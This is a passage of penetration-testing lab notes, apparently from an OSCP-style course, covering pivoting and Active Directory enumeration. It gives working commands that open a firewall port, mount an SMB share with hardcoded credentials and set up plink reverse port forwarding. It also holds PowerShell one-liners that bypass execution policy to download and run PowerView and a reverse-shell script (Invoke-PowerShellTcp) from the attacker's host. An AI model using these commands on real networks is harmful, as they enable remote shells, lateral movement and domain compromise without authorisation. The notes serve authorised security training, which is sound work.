 ### Permit traffic from anywhere to local port 4455
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.152.10 localport=4455 action=allow
```

### Verify Attacker Machines uses SMB2
```
$ grep "SMB2" "/etc/samba/smb.conf"
min protocol = SMB2
```

### Mount the Win10 Share on the Attacker box
```
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //192.168.152.10/Data -o username=Administrator,password=lab /mnt/win10_share
ls -l /mnt/win10_share/
```

## plink.exe
To forward local port 3306 (from target) to the attacker (192.168.119.152) local port 1235 run the following command:
```
cmd /c echo y | plink.exe -batch -ssh -l kali -pw kali -R 192.168.119.152:1235:127.0.0.1:3306 192.168.119.152
```

# AD Enumeration
## Powershell Notes
Execution Policy Unrestricted
```
set-executionpolicy unrestricted
```
## Powerview

### Download and execute in memory
```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152/powerview.ps1');Get-NetSession -ComputerName dc01 | Format-Table"

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152:40000/Invoke-PowerShellTcp.ps1')"
```
### See who is logged in to a domain controller
```
C:\tools\active_directory> Import-Module .\PowerView.ps1
Get-NetSession -ComputerName dc01 | Format-Table
```
### Enumerate Local Admin
```
Invoke-EnumerateLocalAdmin | Format-Table
```
